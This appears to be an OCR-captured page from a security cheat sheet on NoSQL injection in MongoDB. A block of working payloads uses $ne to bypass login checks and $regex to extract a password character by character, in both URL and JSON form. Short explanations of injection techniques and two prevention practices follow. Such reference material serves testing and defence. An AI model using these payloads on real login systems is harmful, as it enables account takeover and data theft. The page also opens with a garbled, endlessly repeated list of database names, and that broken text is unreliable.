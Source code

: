 **Terrastore**, **Scalaris**, **RaptorDB**, **Hypertable**, **Voldemort**, **Terrastore**, **Scalaris**, **RaptorDB**, **Hypertable**, **Voldemort**, **Terrastore**, **Scalaris**, **RaptorDB**, **Hypertable**, **Voldemort**, **Terrastore**, **Scalaris**, **RaptorDB**, **Hypertable**, **Voldemort**, **Terrastore**, **Scalaris**,
```
in URL (if length == 3)
username[$ne]=toto&password[$regex]=a.{2}
username[$ne]=toto&password[$regex]=b.{2}
...
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```
### **SQL - Mongo**

#### **NoSQL Injection**

NoSQL injection is a type of attack that targets NoSQL databases, such as MongoDB. It is similar to SQL injection, but instead of exploiting vulnerabilities in SQL queries, it exploits vulnerabilities in NoSQL queries.

#### **NoSQL Injection Techniques**

1. **Query Parameter Manipulation**: Attackers can manipulate query parameters to inject malicious code into NoSQL queries. This can be done by modifying the query parameters to include special characters or operators that can alter the behavior of the query.

2. **NoSQL Operator Injection**: NoSQL databases use operators, such as `$gt`, `$lt`, `$ne`, etc., to perform operations on data. Attackers can inject these operators into query parameters to manipulate the query and retrieve unauthorized data.

3. **Regular Expression Injection**: NoSQL databases often use regular expressions for pattern matching. Attackers can inject malicious regular expressions into query parameters to bypass input validation and retrieve sensitive information.

4. **JavaScript Injection**: NoSQL databases often use JavaScript functions for data manipulation. Attackers can inject malicious JavaScript code into query parameters to execute arbitrary code and gain unauthorized access to the database.

#### **Preventing NoSQL Injection**

To prevent NoSQL injection attacks, follow these best practices:

1. **Input Validation**: Validate and sanitize all user input to prevent the injection of malicious code.

2. **Parameterized Queries**: Use parameterized queries or prepared statements to ensure that user input is treated as data and not as executable code.
